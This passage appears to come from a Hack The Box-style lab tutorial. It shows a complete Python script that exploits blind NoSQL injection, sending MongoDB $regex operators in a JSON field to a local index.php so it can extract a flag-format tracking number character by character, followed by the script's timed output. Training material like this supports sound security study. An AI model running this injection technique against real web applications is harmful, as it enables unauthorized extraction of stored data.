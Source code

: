 * * *

## The finished script

Putting everything together, the completed script should look like this:

```python
#!/usr/bin/python3

import requests
import json

# Oracle
def oracle(t):
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "bmdyy" in r.text

# Make sure the oracle is functioning correctly
assert (oracle("X") == False)
assert (oracle({"$regex": "^HTB{.*"}) == True)

# Dump the tracking number
trackingNum = "HTB{" # Tracking number is known to start with 'HTB{'
for _ in range(32): # Repeat the following 32 times
    for c in "0123456789abcdef": # Loop through characters [0-9a-f]
        if oracle({"$regex": "^" + trackingNum + c}): # Check if <trackingNum> + <char> matches with $regex
            trackingNum += c # If it does, append character to trackingNum ...
            break # ... and break out of the loop
trackingNum += "}" # Append known '}' to end of tracking number

# Make sure the tracking number is correct
assert (oracle(trackingNum) == True)

print("Tracking Number: " + trackingNum)

```

Running this script should dump the tracking number successfully. Since the alphabet ( `0-9a-f`) is so small, the process goes very quickly; in this case, it only takes around 20 seconds.

```shell
time python3 mangopost-exploit.py

Tracking Number: HTB{...SNIP...}

real    0m23.006s
user    0m0.419s
sys     0m0.033s

```
